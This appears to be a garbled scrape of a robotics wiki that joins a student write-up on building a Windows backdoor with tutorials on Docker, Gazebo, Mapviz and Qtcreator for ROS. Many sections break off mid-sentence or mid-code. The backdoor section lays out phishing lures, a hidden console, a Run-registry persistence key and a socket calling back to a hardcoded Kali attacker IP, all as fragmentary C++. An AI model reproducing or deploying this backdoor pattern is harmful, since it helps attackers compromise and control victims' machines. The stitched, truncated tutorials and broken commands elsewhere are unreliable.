5. [https://operatingsystemsatntu.github.io/OS-21-Spring-at-NTU/mp0.html](https://operatingsystemsatntu.github.io/OS-21-Spring-at-NTU/mp0.html)
6. [https://javascript.plainenglish.io/top-reasons-why-docker-is-popular-31cc6056e82a](https://javascript.plainenglish.io/top-reasons-why-docker-is-popular-31cc6056e82a)
7. [https://www.datadoghq.com/container-report/](https://www.datadoghq.com/container-report/)

# Windows Backdoor

This is actually a very classic type of malware. Its ultimate goal is to execute on the client side and obtain the desired results, while being able to obtain this information on the server side.

The process is roughly as follows:

1. Set up a server to listen for incoming connections on a specific port.
2. Lure the victim into running a backdoor program.
3. The backdoor establishes a connection between the client and server.
4. The server transmits commands to the client.
5. The client executes the commands that we want.
6. The results are obtained on the server side.


To successfully deploy a backdoor, the following four basic concepts are necessary:

- Phishing: luring the user to execute our backdoor, such as disguising it as other trusted programs or providing attractive content.
- Persistence: how to maintain the backdoor running normally on the client side for a long time.
- Privilege escalation: actively attempting to gain administrator privileges on Windows or persuading the victim to grant them.
- Evasion: making the victim unaware of the existence of the backdoor and attempting to evade antivirus software or firewalls.

## Phishing

For this type of backdoor program, the most critical step may be to lure the victim into willingly taking the bait. In the demo, I used the classic trick of disguising the backdoor as a different type of file. Using the well-known self-extracting archive feature of WINRAR makes this step easy to accomplish.

In reality, it would be better to forge or inject the backdoor into a trusted application from various angles, but I am not currently able to do so.

## Connection

To deploy the backdoor, an idle port is selected and the IP and port obtained in advance are embedded in the client-side code. This allows the creation of sockets at both the client and server ends to establish a two-way data transfer. However, passing through the victim's firewall is unavoidable. In this demo, it can only rely on the victim's firewall settings being relatively lax to allow connections on the desired port.

## Backdoor Execution

We create a hidden console, although it is still visible in the task manager.

```cpp
AllocConsole(); 
stealth = FindWindowA("ConsoleWindowClass", NULL); 
ShowWindow(stealth, 0);
```

## Pervasiveness

Registry HEKY should be logged in the corresponding directory to achieve automatic startup when the computer is turned on. In Windows 7, this directory is located at

```cpp
Software\Microsoft\Windows\CurrentVersion\Run
```

This is the way for accessing in Windows

```cpp
TCHAR s2Path[MAX_PATH]; 
DWORD pathLen = 0;
pathLen = GetModuleFileName(NULL, s2Path, MAX_PATH);
HKEY NewVal; 
RegOpenKey(HKEY_CURRENT_USER, TEXT("Software\\Microsoft\\Windows\\CurrentVersion\\Run")
RegSetValueEx(NewVal, TEXT("Backdoor"), 0, REG_SZ, (LPBYTE)s2Path, pathLenInBytes)
```

## Eavesdropping

Establish Socket Communication

```cpp
sock = socket(AF_INET, SOCK_STREAM, 0); 
if (setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, (const char*)&optval, sizeof(optval)) < 0) { 
	printf("Error Setting TCP Socket options!\n");
	return 1;
}
server_address.sin_family = AF_INET;
server_address.sin_addr.s_addr = inet_addr("192.168.56.99"); //kali ip
server_address.sin_port = htons(50008); //port
```

## Reference

1. [https://dangerlover9403.pixnet.net/blog/post/212391408-[教學]c++-socket資料整理](https://dangerlover9403.pixnet.net/blog/post/212391408-%5B%E6%95%99%E5%AD%B8%5Dc++-socket%E8%B3%87%E6%96%99%E6%95%B4%E7%90%86)
2. [https://www.youtube.com/watch?v=6Dc8i1NQhCM&t=4973s](https://www.youtube.com/watch?v=6Dc8i1NQhCM&t=4973s)
3. [https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-functions](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-functions)


/wiki/tools/docker/
---
date: 2021-04-07
title: Docker 
---

Docker is a platform for developers and sysadmins to develop, deploy, and run applications with containers. The use of Linux containers to deploy applications is called containerization. Containers are not new, but their use for easily deploying applications is.

Containerization is increasingly popular because containers are:

  - Flexible: Even the most complex applications can be containerized.
  - Lightweight: Containers leverage and share the host kernel.
  - Interchangeable: You can deploy updates and upgrades on-the-fly.
  - Portable: You can build locally, deploy to the cloud, and run anywhere.
  - Scalable: You can increase and automatically distribute container replicas.
  - Stackable: You can stack services vertically and on-the-fly

## Install Docker on Ubuntu 16.04:

Now let us download Docker into a Ubuntu Xenial (16.04). Firstly, let's get started with updating previous repositories

```sh
$ sudo apt-get update
```

In order to ensure the downloads are valid, add the GPG key for the official Docker repository to your system:

```sh
$ curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add - 
```
$ sudo apt-get update
```

Make sure you are about to install from the Docker repo instead of the default Ubuntu 16.04 repo:

```sh
$ apt-cache policy docker-ce
```

Finally, install the Docker

```sh
$ sudo apt-get install -y docker-ce
```

Docker should now be installed, the daemon started, and the process enabled to start on boot. Check that it's running:

```sh
$ sudo systemctl status docker
```

If the Docker is properly installed, the above command will output something similar to the following:

```sh
● docker.service - Docker Application Container Engine
   Loaded: loaded (/lib/systemd/system/docker.service; enabled; vendor preset: enabled)
   Active: active (running) since Tue 2019-05-07 14:01:38 EDT; 25min ago
     Docs: https://docs.docker.com
 Main PID: 2112 (dockerd)
    Tasks: 42
   Memory: 107.3M
      CPU: 1.460s
   CGroup: /system.slice/docker.service
           └─2112 /usr/bin/dockerd -H fd://
```

## Setup Nvidia Docker:

For Projects having different versions of software packages like tensorflow, Docker helps to keep a uniform version across various machines so incompatibility issues wouldn't arise. This section will highlight how to use Nvidia docker for your project.

Ensure that your system is able to access the GPU using the following command:

```sh
$ nvidia-smi
```

The above command should display the system's GPU information. If the above doesn't display the system's GPU information, run the following command to detect the presence of GPU: 

```sh
$ lspci | grep -i nvidia
```

Failure of any of the above command indicates that the NVIDIA GPU is not installed into the system. You may want to follow this tutorial to install NVIDIA drivers [install_nvidia_driver](<https://github.com/heethesh/Computer-Vision-and-Deep-Learning-Setup>).

Now, we need to install package repositories.

```
$ curl -s -L https://nvidia.github.io/nvidia-docker/gpgkey | \ sudo apt-key add -distribution=$(. /etc/os-release;echo $ID$VERSION_ID)
$ curl -s -L https://nvidia.github.io/nvidia-docker/$distribution/nvidia-docker.list | \
  sudo tee /etc/apt/sources.list.d/nvidia-docker.list
$ sudo apt-get update
```

Install NVIDIA docker-2 and reload daemon configuration

```
$ sudo apt-get install -y nvidia-docker2
$ sudo pkill -SIGHUP dockerd
```

Test Installation with CUDA Docker image:

```
$ docker run --runtime=nvidia --rm nvidia/cuda:9.0-base nvidia-smi
```

## Running Your First Docker Container:

Now, let's dive into using Docker for your project

Docker containers are run from Docker images. By default, it pulls these images from Docker Hub. Anybody can build and host their Docker images on Docker Hub, so most applications and Linux distributions you'll need to run Docker containers have images that are hosted on Docker Hub.

We will begin with a simple 'Hello Docker' program. Run the following command:

```sh
$ docker run hello-world
```

You should see the following output:

```sh
Hello from Docker!
This message shows that your installation appears to be working correctly.

To generate this message, Docker took the following steps:
 1. The Docker client contacted the Docker daemon.
 2. The Docker daemon pulled the "hello-world" image from the Docker Hub.
    to your terminal.
```

## Basic Docker Usage:
Docker has three main types of objects that you need to be familiar with - Dockerfiles, images, and containers.

### Make A Dockerfile

### Build A Docker Image
After you have made a Dockerfile, it can be built into a docker image, which is simply a compiled version of the Dockerfile. Execute the following command from the same folder that the Dockerfile is in.
```sh
sudo docker build -t {IMAGE_NAME}:{IMAGE_TAG} .
```
Here {IMAGE_NAME} is the name of your image, and {IMAGE_TAG} specifies a version. If you are not interested in keeping track of version you can simply set {IMAGE_TAG} to be "latest". It is important that you remember the {IMAGE_NAME} and {IMAGE_TAG} you use because you will need it to run a container.

### Run A Docker Container
To make a container from you image, run
```sh
sudo docker run -it --name {CONTAINER_NAME} {IMAGE_NAME}:{IMAGE_TAG}
```
This will create a docker container named {CONTAINER_NAME} using the image and tag that was just created. You should now be in your new docker and be able to execute shell commands in it.

### Exit A Docker Container
To leave the container, terminate the shell process.
```sh
exit
```

### Re-enter A Docker Container
```sh
sudo docker rm {CONTAINER_NAME}
sudo docker run -it --name {CONTAINER_NAME} {IMAGE_NAME}:{IMAGE_TAG}
```

## Other Useful Docker Features
### Running Multiple Processes
If you have a container that is running and you want to run another process in that container you can use `docker exec`. Note that this must be done from the operating system and NOT from within the docker container. For example, to launch another shell you would use
```sh
sudo docker exec {CONTAINER_NAME} /bin/bash
```
### Persistent Storage Across Container Cycles
Chances are you want to have persistent access to data in a docker container. One the easiest ways to do this using a docker volume. This will add a folder to your docker container that will persist after the container is deleted. To do this, add the `-v` argument to `docker run`
```sh
sudo docker run -it --name {CONTAINER_NAME} -v {LOCAL_DIR}:{CONTAINER_DIR} {IMAGE_NAME}:{IMAGE_TAG}
```
This will create a folder called {CONTAINER_DIR} inside the container that will also exist at {LOCAL_DIR} on your operating system. The data in this folder will persist after a container is deleted and can be used again when another container is started.
### See All Running Docker Containers
### Delete Unnecessary Containers and Images.
When you are first creating your docker file you may end up with many unused images. You can get rid of them using the following command
```sh
sudo docker prune
```

## Common Docker Issues On Ubuntu and Their Fixes
### Build fails because software cannot properly use debconf
Debconf is something that helps software configure itself while it is being installed. However, when a Dockerfile is being built the software cannot interact with debconf. To fix this, add this line to your Dockerfile before you the line that causes the debconf error
```
```
Add the following arguments when you use run
```
-e DISPLAY -v /tmp/.X11-unix:/tmp/.X11-unix --net=host --privileged
```
### The terminal prompt is not properly highlighted
The terminal prompt, which is the PS1 environment variable, is set by the bashrc file. The default file may not properly enable or has logic built in which disables it. To get around it, add this to your Dockerfile
```
RUN echo "PS1='${debian_chroot:+($debian_chroot)}\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '" >> ~/.bashrc
```


To Create docker files for your project, you can follow the tutorial [here](<https://www.mirantis.com/blog/how-do-i-create-a-new-docker-image-for-my-application/>)

## Further Reading:
1. Create your very own Docker image: https://www.scalyr.com/blog/create-docker-image

2. Create Docker containers, services,  swarms, stacks for your application: https://docs.docker.com/get-started

3. Deploy Docker containers in AWS: https://aws.amazon.com/getting-started/tutorials/deploy-docker-containers

4. Docker Images inventory: https://hub.docker.com/search/?type=image

## References:
1. About Docker: https://docs.docker.com

2. NVIDIA Docker: https://github.com/NVIDIA/nvidia-docker

3. Creating your own Dockerfile: https://www.youtube.com/watch?v=hnxI-K10auY

4. Docker file reference: https://docs.docker.com/engine/reference/builder

5. Docker CLI reference: https://docs.docker.com/engine/reference/commandline/cli/

6. Docker Volumes: https://docs.docker.com/storage/volumes/


/wiki/tools/gazebo-simulation/
---
date: 2020-04-24
title: Gazebo Simulation
---
This is a tutorial for Gazebo, including how to customize a model and use a sensor plug-in.

## Introduction

What's Gazebo anyway?

From Gazebo’s tutorials homepage:
>Gazebo is a 3D dynamic simulator with the ability to accurately and efficiently simulate populations of robots in complex indoor and outdoor environments. While similar to game engines, Gazebo offers physics simulation at a much higher degree of fidelity, a suite of sensors, and interfaces for both users and programs.

>Typical uses of Gazebo include:
>* testing robotics algorithms,
>* designing robots,
>* performing regression testing with realistic scenarios
>
>A few key features of Gazebo include:
>* multiple physics engines,
>* a rich library of robot models and environments,
>* a wide variety of sensors,
>* convenient programmatic and graphical interfaces

This is particularly useful when we want to develop systems on robots, but we don’t always have the hardware around, or we don’t want to damage the robot with some potentially incorrect algorithms. Gazebo simulation could be our best friend in a way that we can simulate our robots, sensors, and to test algorithms in it. What’s more, we can launch Gazebo in a ROS launch file and pass in relevant parameters, which makes our life much easier.

## Outline
* Import a Model into Gazebo World
* Customize a Model
* Sensor Plugins for Gazebo-ROS Interface

### Import a Model into Gazebo World
To import a model inside a Gazebo world, one can simply open Gazebo, navigate to the `insert` tab at the top left corner,  and use your mouse to drag models into the scene.
However, if you want to import a customized model that is not under the default gazebo model path, this is what you should do. Add this following line in the launch file that is opening the Gazebo simulation so that Gazebo could recognize the models under a specific directory. (In this example, the model is defined in the package `autovalet_gazebo`)
```
<env name="GAZEBO_MODEL_PATH" value="$(find autovalet_gazebo)/models:$(optenv GAZEBO_MODEL_PATH)" />
```
One could also directly write codes in a .world file to insert a model. It is in URDF format, but it is not as straightforward as dragging an object in the GUI.

### Customize a Model
Sometimes, you might want to change some parts of the gazebo built-in models or simply create a new one from scratch. To create a new one, one can follow this [official tutorial](http://gazebosim.org/tutorials?tut=build_model) of Gazebo. However, if you were to modify some parts of an existing model, what could you do? For example, if we need a ground plane model with a customized ground image, we can follow [this tutorial](http://answers.gazebosim.org/question/4761/how-to-build-a-world-with-real-image-as-ground-plane/). We want to put all associated files under a `/models` directory specifically for Gazebo. Let’s take a look at an example model file structure.
```
~/catkin_ws/src/autovalet/autovalet_gazebo/models/cmu_ground_plane$ tree
.g
├── materials
│   ├── scripts
│   │   └── cmu_ground_plane.material
│   └── textures
│   	├── garage.png
├── model.config
└── model.sdf
```

You might notice that the default model path for Gazebo is
`~/.gazebo/models/cmu_ground_plane`, but instead, we here put our customized model at a different path `autovalet/autovalet_gazebo/models`, which is under our ROS package. This is a good practice since one would not want to mess up default models and self-defined models in the same directory.
The key here is to put the desired image file under `/materials/textures` and modify the image filename correspondingly in `/scripts/cmu_ground_plane.material`. 

### Sensor Plugins for Gazebo-ROS Interface
*Requirement*: Validating algorithms that are in the development stage on actual hardware is risky and time-consuming. Moreover, frequent operation of the robot is limited due to power, logistics and pandemic constraints. For example, in our case (MRSD ‘19-’21 AutoValet),  with the environment in Gazebo. The [gazebo_ros](http://wiki.ros.org/gazebo_ros) package provides a link between ROS topics and the Gazebo environment.


*Setup: Velodyne Puck*
_Source: DataSpeed Inc._ <https://bitbucket.org/DataspeedInc/velodyne_simulator/src/master/>
In order to set up the plugin, clone the referred repository into the src of your catkin_ws and build the package using catkin_make.

```
cd path/to/catkin/workspace/src
git clone https://bitbucket.org/DataspeedInc/velodyne_simulator/src/master/
mv master vlp16_simulator
cd .. && catkin_make
```

To include the senor in your robot, add the following line in your URDF inside the robot tag.
`<xacro:include filename="$(find velodyne_description)/urdf/VLP-16.urdf.xacro"/>`

This includes the URDF xacro of the sensor which includes information on physical dimensions and link to the plugin src code.

After, including the sensor, we need to define a static link between the sensor and a previ
In order to use the modified version, you need to pull [their version](https://github.com/pal-robotics-forks/realsense/tree/upstream) of the RealSense ROS package as compared to the [intel version](https://github.com/IntelRealSense/realsense-ros). This is because their version has a modified URDF for the d435 xacro which includes the [plugin parameters](https://github.com/pal-robotics-forks/realsense/blob/upstream/realsense2_description/urdf/_d435.gazebo.xacro). Ensure that you do not have a standard version of the RealSense package. A simple check would be to execute:

`sudo apt-get remove ros-kinetic-realsense-*`
(P.S: It also removes a few extra packages. Ensure it doesn’t remove anything you require. Worst case you can reinstall the removed ones after this command)

Pull and build their package in your catkin workspace. Ensure you have already installed the librealsense SDK from [here](https://github.com/IntelRealSense/librealsense/blob/master/doc/distribution_linux.md#installing-the-packages). The librealsense library has build issues for NVIDIA Jetsona and similar ARM processors - stay away from those if you intend to use realsense and vice versa. If there’s no other way and you have to run it on a Jetson, there is another post on rkb that can help.

```
cd path/to/catkin/workspace/src
git clone https://github.com/pal-robotics-forks/realsense.git
cd realsense
git checkout upstream
cd .. && catkin_make
```

Having built the package, we set up the robot’s URDF as below to mount and publish the sensor stream. Inside the robot tag of your robot_description launch file include the modified xacro of the RealSense. Also set up the link w.r.t an existing frame on your
    	<origin xyz="0 0.197 -0.59" rpy="0 0 1.57079"/>
    </sensor_d435>
```

To update the parameters such as topic to publish, rate, and depth limits, you can modify the end of [this](https://github.com/pal-robotics-forks/realsense/blob/upstream/realsense2_description/urdf/_d435.gazebo.xacro) file in the realsense_description package.

*Fig. 2: Camera image and point cloud published by the plug-in.*

## Summary
We have covered several aspects in Gazebo, including importing and customizing a model into a Gazebo world, and to implement plugins for the sensors as well as define the URDF files so that messages would be published accordingly. These two components are crucial when we want to start a ROS simulation using Gazebo.

## See Also:
* [Visualization and Simulation](https://roboticsknowledgebase.com/wiki/tools/visualization-simulation/)
ound-plane/>
* Build a model in Gazebo: <http://gazebosim.org/tutorials?tut=build_model>


/wiki/tools/mapviz/
---
date: 2022-12-07
title: Mapviz for Map Based Visualization in ROS2 
---
Mapviz is a highly customizable ROS-based visualization tool focused on large-scale 2D data, with a plugin system for extreme extensibility. Mapviz is similar to Rviz, but is specifically designed for 2D, top-down viewing of outdoor robots, especially in overlaying data on an external map from OpenStreetMaps or Google maps.

This tutorial will explain how to setup Mapviz for ROS2 along with Google Maps s
                       ros-$ROS_DISTRO-multires-image
```

In case, its not available or you need to build it from source, you can do so with the following steps:

1. Clone the latest version of the repository using the most recent branch into your `src` folder inside your workspace. At the time of writing the latest branch was `ros2-devel`.
```bash
git clone -b ros2-devel https://github.com/swri-robotics/mapviz.git
```
2. Build the workspace
```bash
colcon build --symlink-install --packages-select mapviz_interfaces mapviz mapviz_plugins tile_map multires_image
```

## Setting up Google Maps Satellite 
This part of the tutorial uses the following repo [GitHub - danielsnider/MapViz-Tile-Map-Google-Maps-Satellite: ROS Offline Google Maps for MapViz](https://github.com/danielsnider/MapViz-Tile-Map-Google-Maps-Satellite)  to proxy Google Maps satellite view into a  WMTS tile service so that it can be viewed on Mapviz.

The following are the steps to set it up, such that this service autostart on boot.

1. Install Docker 
    ```bash
    sudo apt install docker.io
    sudo systemctl enable --now docker
    sudo groupadd docker
    sudo usermod -aG docker $USER
    ```
    Launch Mapviz
    ```bash
    ros2 launch mapviz mapviz.launch.py
    ```

   1. You can then add a new layer to the map by clicking on the add button on the bottom left corner of the map. 
   2. Add a new `map_tile` display component
   3. In the `Source` dropdown select `Custom WMTS source`
   4. Set the `Base URL` to `http://localhost:8080/wmts/gm_layer/gm_grid/{level}/{x}/{y}.png`
   5. Set the 'Max Zoom' to 19
   6. Click `Save`

   The map should now load up with Google Maps satellite view. This may take some time initally.

## Advanced Setup

1. Create a custom launch file
You can create a custom launch file to load Mapviz with a custom configuration and initalize to a custom origin by default.

    ```python
    import launch
    from launch.actions import DeclareLaunchArgument
    from launch.substitutions import LaunchConfiguration, PathJoinSubstitution
    from launch_ros.actions import Node
    from launch_ros.substitutions import FindPackageShare


    def generate_launch_description():
        current_pkg = FindPackageShare('your_package_name')

        return launch.LaunchDescription(
                    package='mapviz',
                    executable='mapviz',
                    name='mapviz',
                    output={'both': 'log'},
                            'local_xy_origins': """[
                        {'name': 'pitt',
                            'latitude': 40.438889608527084,
                            'longitude': -79.95833630855975,
                            'altitude': 273.1324935602024,
                            'heading': 0.0}
                    ]"""
                        },
                    ],
                ),
            ]
        )
    ```

    This will find the share directory of your package. This generally where all configs are stored for ROS2 packages.
    
    ```python
    current_pkg = FindPackageShare('your_package_name')
    ```

    Using this we can load the custom Mapviz config. This line assumes by default the config file is stored in the `mapviz` folder of your package and is named `mapviz.mvc`.
    ```python
    DeclareLaunchArgument(
        'mapviz_config',
        default_value=PathJoinSubstitution([current_pkg, 'mapviz', 'mapviz.mvc']),
        description='Full path to the Mapviz config file to use',
    ),
    ```

    This will load the Mapviz node with the custom config file and ensure that autosave is disabled.
    ```python
    Node(
        package='mapviz',
        executable='mapviz',
        name='mapviz',
        output={'both': 'log'},
        parameters=[
            {'config': LaunchConfiguration('mapviz_config'), 'autosave': False}
        ],
    ),
    ```

    This will load the `initialize_origin.py` node which will initialize the origin
        For this example we will set the origin to the name `pitt` which is the name of the origin in the `local_xy_origins` parameter. This sets it to a specific location in Pittsburgh, PA.

    ```python
    Node(
        package='mapviz',
        executable='initialize_origin.py',
        name='initialize_origin',
        parameters=[
            {'local_xy_frame': 'map'},
            {'local_xy_navsatfix_topic': 'gps/fix/origin'},
            {'local_xy_origin': 'auto'},
            {
                'local_xy_origins': """[
            {'name': 'pitt',
                'latitude': 40.438889608527084,
                'longitude': -79.95833630855975,
                'altitude': 273.1324935602024,
                'heading': 0.0}
        ]"""
            },
        ],
    )
    ```

1. Setting the origin to the current GPS location

    The following script subscribes the current GPS location and re-publishes the first GPS coordinate it recieves as the origin on the topic `gps/fix/origin`.

    Incase you are using the `robot_localization` package to fuse GPS, it also calls the `SetDatum` service offered by the `robot_localization` package to set the datum of the robot_localization node.
    This is necessary to ensure that the robot_localization node is using the s
    from rclpy.node import Node
    from rclpy.qos import (
        qos_profile_sensor_data,
        QoSDurabilityPolicy,
        QoSHistoryPolicy,
        QoSProfile,
    )

    from robot_localization.srv import SetDatum
    from sensor_msgs.msg import NavSatFix, NavSatStatus


    class GpsDatum(Node):
        """
        Republishes the first valid gps fix and sets datum in robot_localization.

        Subscribes and stores the first valid gps fix, then republishes it as the
        origin. Also calls SetDatum service offered by robot_localization.

        """

        def __init__(self):
            super().__init__('gps_datum')

            self.gps_datm_msg_ = None
            self.rl_datum_future_ = None
            self.rl_datum_set_ = False
                    history=QoSHistoryPolicy.KEEP_LAST,
                    depth=1,
                ),
            )

            # Need to use a timer since latching behaviour doesn't behave like ROS1
            # https://github.com/ros2/ros2/issues/464
            timer_period_ = 1.0
            self.timer_ = self.create_timer(timer_period_, self.timer_callback)

            self.rl_datum_client = self.create_client(SetDatum, 'datum')
            self.get_logger().info('Waiting for robot_localization datum service')
            self.rl_datum_client.wait_for_service()
            self.get_logger().info('robot_localization datum service now available')

        def sub_gps_cb(self, msg):
            if msg.status.status == NavSatStatus.STATUS_NO_FIX:
                return
            self.gps_datm_msg_ = msg
            self.get_logger().info('Successfully set origin. Unsubscribing to gps fix')
            self.destroy_subscription(self.sub_gps_)

        def timer_callback(self):
            if self.gps_datm_msg_ is None:
                return
            self.pub_gps_datum_.publish(self.gps_datm_msg_)
            self.send_rl_request()

        def send_rl_request(self):
            if self.rl_datum_set_ or self.gps_datm_msg_ is None:
                return

            if self.rl_datum_future_ is None:
                req = SetDatum.Request()
                req.geo_pose.position.latitude = self.gps_datm_msg_.latitude
                req.geo_pose.position.longitude = self.gps_datm_msg_.longitude
                req.geo_pose.position.altitude = self.gps_datm_msg_.altitude
                req.geo_pose.orientation.w = 1.0
                self.get_logger().info(
                    'Sending request to SetDatum request to robot_localization'
                )
                self.rl_datum_future_ = self.rl_datum_client.call_async(req)
            else:
                if self.rl_datum_future_.done():
                    try:
                        self.rl_datum_future_.result()
                    except Exception as e:  # noqa: B902
                        self.get_logger().info(
                            'Call to SetDatum service in robot_localization failed %r'
                            % (e,)
                        )
                    else:
                        self.get_logger().info('Datum set in robot_localization')
                        self.rl_datum_set_ = True


    def main(args=None):
        rclpy.init(args=args)

        gps_datum = GpsDatum()

        rclpy.spin(gps_datum)

        gps_datum.destroy_node()
        rclpy.shutdown()


    if __name__ == '__main__':
        main()
    ```

2. Custom Configuration

    Below is an example configuration file mentioned above as `mapviz.mvc` for Mapviz. This loads the Google Maps Satellite layer and shows the GPS location published on the `/gps/fix` topic.

    ```
    capture_directory: "~"
    fixed_frame: map
    target_frame: <none>
    fix_orientation: false
    rotate_90: true
    enable_antialiasing: true
    show_displays: true
    show_status_bar: true
    show_capture_tools: true
    window_width: 1848
    window_height: 1016
    view_scale: 0.09229598
    offset_x: 0
    offset_y: 0
    use_latest_transforms: true
    background: "#a0a0a4"
    image_transport: raw
    displays:
    - type: mapviz_plugins/tile_map
        name: Map
        config:
        visible: true
        collapsed: true
        custom_sources:
            - base_url: http://localhost:8080/wmts/gm_layer/gm_grid/{level}/{x}/{y}.png
            max_zoom: 19
            name: GMaps
            type: wmts
            - base_url: https://tile.openstreetmap.org/{level}/{x}/{y}.png
            max_zoom: 19
            name: OSM
            type: wmts
        bing_api_key: ""
        source: GMaps
    - type: mapviz_plugins/navsat
        name: INS Location
        config:
        visible: true
        collapsed: true
        topic: /gps/fix
        color: "#fce94f"
        draw_style: points
        position_tolerance: 0.5
        buffer_size: 0
        show_covariance: true
        show_all_covariances: false
    ```


/wiki/tools/Qtcreator-ros/
---
# Jekyll 'Front Matter' goes here. Most are set by default, and should NOT be
# overwritten except in special circumstances. 
# You should set the date the article was last updated like this:
date: 2021-04-02 # YYYY-MM-DD
# This will be displayed at the bottom of the article
# You should set the article's title:
title: Qtcreator User-Interface with ROS
# The 'title' is automatically displayed at the top of the page
# and used in other parts of the site.
---
Qtcreator is a popular user interface integrated development environment (IDE) that can interface easily with ROS. It supports multiple platforms, such as x86 desktop, arm-based embedded devices, and mobile platforms such as Android and iOS. However, this tutorial will focus on using this tool to create a user interface with ROS integrated in it.

 #### Why use [Qtcreator](https://doc.qt.io/qtcreator/index.html) and not [ROS Qt (rqt)](http://wiki.ros.org/rqt)

rqt is great for 'quick and dirty' UI where-by you can fix together different plugins (or make your own plugin) in a dockable window. However, if you want to make highly customized UI with your own graphics asset, animation, and granular control, creating a Qt application is a better option.

# Installation

Do not install the standard Qtcreator from their [website](https://www.qt.io/), this version is meant for the more generic version of Qt for all application. We want instead to install the Qtcreator that has been tailored for ROS development.

## Requirements

- Ubuntu 18.04 LTS (please check what is available in this [website](https://ros-qtc-plugin.readthedocs.io/en/latest/_source/How-to-Install-Users.html))
- [ROS Melodic Desktop Full](http://wiki.ros.org/melodic/Installation/Ubuntu) (if using Ubuntu 18.04 LTS)

## Installation Steps

- Download the online installer for Users (not Developers). This is the latest [link](https://qtcreator-ros.datasys.swri.edu/downloads/installers/bionic/qtcreator-ros-bionic-latest-online-installer.run) for Ubuntu 18.04 but I suggest to Google `qtcreator ros install` yourself and download the latest stable release

- Run the installer through the command line terminal, e.g. if you download it to your ~/Downloads folder

  ```bash
  $ chmod +x ~/Downloads/qtcreator-ros-bionic-latest-online-installer.run
  $ ~/./Downloads/qtcreator-ros-bionic-latest-online-installer.run
  ```

- Select all the default configuration in the setting window. It should install Qtcreator at your home directory

- Test your installation by launching the program

```bash
$ qtcreator-ros
```

A program window should open similar to this:


## Installation Troubleshooting

1. Qt library files not found

   if you see this error when launching `qtcreator-ros`:

   ```bash
   error while loading shared libraries: libQt5Core.so.5 cannot open object file: No such file or directory.
   ```

   whereby a Qt .so file is not found, this means that either:

   - You used the wrong installer file (the default qtcreator instead of qtcreator-ros for example, or the wrong Ubuntu version)
   - You accidentally removed Qt library files. These should have been installed automatically when you installed ROS Melodic through the command `sudo apt install  ros-melodic-desktop-full`. One possibility is that you used the Qt MaintenanceTool and selected `Remove all components`

## Make your own Hello World example

This section will guide you to create your first simple Hello-World Qt program

1. Run the `qtcreator-ros` application

2. Create new project using `File -> New File or Project -> Application -> Qt Widgets Application`

   

3. Name your project/application

   

4. If you installed correctly, the Kit will be detected automatically, if not this [link](https://stackoverflow.com/questions/26499404/qtcreator-no-valid-kits-found) might be useful

   

5. Name your main class. Although this is not the main function, it acts as the entry point of the application

   

6. Select finish

7. A project folder should be created, you can navigate with the menu on the left side.

8. Click the green arrow at the bottom left side or use `Ctrl + R` to build and run. You should see a blank application window like this one

   

9. Close the program by clicking on the red cross on the `MainWindow` window. and navigate to the `mainwindow.ui` file under `Forms` on the left menu. It will automatically switch to the `Design` tab and open this UI editor tool

   

10. The left menu is now switched to the basic UI widgets available. You can put them through drag and drop. Try to drag and drop these 4 types of widgets:

    1. `Buttons -> Push Button`
    2. `Input Widgets -> Line Edit`
    3. `Display Widgets -> Label`
    4. `Display Widgets -> Text Browser`

    

11. Some of the widgets have text that is displayed on them such as the `Label` and `Push Button`, you can double-left-click on them and edit the display text 

    

12. On the right menu you should see a summary of all the objects and widgets that you have created. Here we can see the 4 widgets we added. An important distinction here is that the left column is the name of the object (unique entity) and the right column is the class name (not unique). Hence, you can have multiple labels, but these are based on `QLabel` class

    

13. To drive the point home, try to rename the objects. It is advisable to give it mear a new message is received.

There is no need to create a signal/slot object like in ROS, when you create any a class whose parent class is a QtObject, the inherited class will have the signal/slot capabilities. Signals and slots are represented as functions in a class. For example:

```C++
class AClass : public QObject {
	Q_OBJECT
public:
    AClass() {}
signals:
    void mySignal1(int);
    void mySignal2(float, int);
    void mySignal3();
public slots:
    void mySlot1(double);
    void mySlot2();
private:
    int memberVar;
};
```

Let's take a more concrete example between two classes, one of them is the class above `AClass` and another `BClass` as defined below:

```C++
class BClass : public QObject {
	Q_OBJECT
public:
    BClass();
    void run();
signals:
    void mySignalFromB(double);
public slots:

private:
	AClass* aClass;
};

void BClass::BClass() {
    aClass = new AClass();
    connect(this, SIGNAL(mySignalFromB(double)), aClass, SLOT(mySlot1(double)));
}

void BClass::run() {
    std::cout << "B: sending signal from B" << std::endl;
    double var = 1.0;
    emit mySignalFromB(1.0);
}

void AClass::mySlot1(double msg) {
    std::cout << "A: receiving signal from B to slot in A" << std::endl;
    std::cout << "message value: " << msg << std::endl;
}

int main() {
    BClass bClass;
    bClass.run();
    return 0;
}
```

The output of this program will be

```bash
B: sending signal from B
A: receiving signal from B to slot in A
message value: 1.0
```

#### Summary of important components in Qt communication

- signals are functions that send an argument that will be received by a slothe `connect` function by specifying the source object address, signal function, destination object address, and slot function
- Use the `emit` command to send signals    

You can read more about it [here](https://doc.qt.io/qt-5/signalsandslots.html)

## How to integrate ROS in Qt application

Most GUIs have some sort of a while loop to continuously process the GUI and Qt works in a similar fashion. Therefore, you can't put `ros::spin()` inside the main function as you would normally do in a ROS node as the thread will be busy processing the GUI.

The approach we will take is to create a ROS node to handle the publishing and subscription, instantiate them in the `mainwindow.cpp` class and send them to be processed concurrently on different threads.

### Steps:

1. Add ROS include in the .pro file

   The project's .pro file is analogous to CMakeLists.txt where you specify dependencies. Here's a sample of the libraries you need for ROS development

   ```C++
   QT       += core gui
   
   greaterThan(QT_MAJOR_VERSION, 4): QT += widgets printsupport
   
   INCLUDEPATH += /opt/ros/melodic/include
   
   LIBS += -L/opt/ros/melodic/lib -lroscpp -lroslib -lrosconsole -lroscpp_serialization -lrostime -lrviz
   ```

2. `ros::NodeHandle` will be created as a member of the `mainwindow` class, do not create new one elsewhere

3. Create a class for subscriber:

   1. It will have a pointer to a nodehandle (`ros::NodeHandle`) as a member, and the address of the nodehandle object will be passed to this member variable in the constructor

   2. It will have a slot function that initializes the `ros::Subscriber` and a while loop that runs `emit` signals and `ros::spinOnce()`

      ```C++
      // run ROS
      ros::Rate loop_rate(20);
      while (ros::ok()) {
          emit signal_data_callback(msg.data);
      
          ros::spinOnce();
